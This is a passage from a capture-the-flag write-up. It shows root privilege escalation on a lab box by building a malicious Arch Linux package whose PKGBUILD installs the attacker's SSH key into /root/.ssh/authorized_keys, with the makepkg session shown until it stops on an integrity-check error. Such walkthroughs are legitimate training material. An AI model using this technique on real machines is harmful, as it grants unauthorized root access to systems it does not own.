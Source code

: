 ```
linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;
linkStyle 1,4,5,6,7 stroke-width:2px,stroke:#4B9CD3,fill:none;
style identifier fill:#1d1d1d,color:#FFFFFFFF;

```

#### File Write In package()

Creating a package involves generating a `PKGBUILD` file. There is a `build()` function that isn’t useful to me here, but also a `package()` function that is responsible for installing files.

There’s a couple ways I could take this. One would be to write a SetUID/SetGID `bash`. For example, I’ll create a directory in `/dev/shm` to work from:

```

[paul@blockblock shm]$ mkdir oxdf
[paul@blockblock shm]$ cd oxdf/

```

I’ll create a `PKGBUILD` file:

```

pkgname=oxdf
pkgver=0.0.1
pkgrel=1
pkgdesc="privesc"
url=https://0xdf.gitlab.io
source=("pub")
arch=("x86_64")
license=("GPL2")

build() {
    echo "building oxdf for takeover"
}

package() {
    install -Dm755 "$srcdir/pub" "$pkgdir//root/.ssh/authorized_keys"
}

```

I’m having it write as 755 because that’s what the permissions on `/root` and `/root/.ssh` are typically. It’s referencing the `pub` file with my public SSH key in it, which I’ll copy into this directory as well.

To make this into a package, I’ll run `makepkg`:

```

[paul@blockblock oxdf]$ ls
PKGBUILD  pub
[paul@blockblock oxdf]$ makepkg 
==> Making package: oxdf 0.0.1-1 (Mon 24 Mar 2025 09:26:40 PM UTC)
==> Checking runtime dependencies...
==> Checking buildtime dependencies...
==> Retrieving sources...
  -> Found pub
==> ERROR: Integrity checks are missing for: source

```
